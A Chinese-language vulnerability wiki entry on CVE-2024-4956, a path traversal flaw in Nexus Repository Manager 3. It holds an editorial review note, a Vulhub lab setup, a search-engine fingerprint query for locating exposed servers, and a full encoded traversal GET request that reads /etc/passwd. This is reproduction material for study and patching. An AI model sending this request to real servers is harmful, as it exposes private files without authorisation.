



## 核对与使用边界

- 元数据更正：原 version 抽成 docker compose up -d，与版本无关；正文所述 &lt;3.68.1 为来源范围，实际部署还需访问路由、路径规范化与进程可读权限。原编码遍历请求保留，不用启动命令做版本判断。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.68.1、实验3.68.0一致，元数据错误保存compose命令

代码与实验材料：完整编码遍历GET及结果图，canonicalPath机制图未视检；进程可读权限限制需说明

来源证据范围：官方Sonatype公告、BlackHat原研究较好

- **事实待核（1）**：版本元数据抽取完全错误；依据：version:docker compose up -d而正文有明确&lt;3.68.1。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：机制与环境需锁定；依据：不应把所有Jetty含空路径行为都判同CVE，实际Nexus版本及路径处理链关键。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Nexus Repository Manager 3 未授权目录穿越漏洞 CVE-2024-4956

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET 等软件源仓库。

其 3.68.0 及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16

## 漏洞影响

```
Sonatype Nexus Repository 3 < 3.68.1
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Nexus Repository Manager version 3.68.0 版本服务器（内存>4G）：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到 Nexus 的默认页面。




## 漏洞复现

与 Orange Tsai 在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的 SpringMVC CVE-2018-1271 漏洞类似，Jetty 的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：




发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: your-ip:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

可见，`/etc/passwd`已被成功读取。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
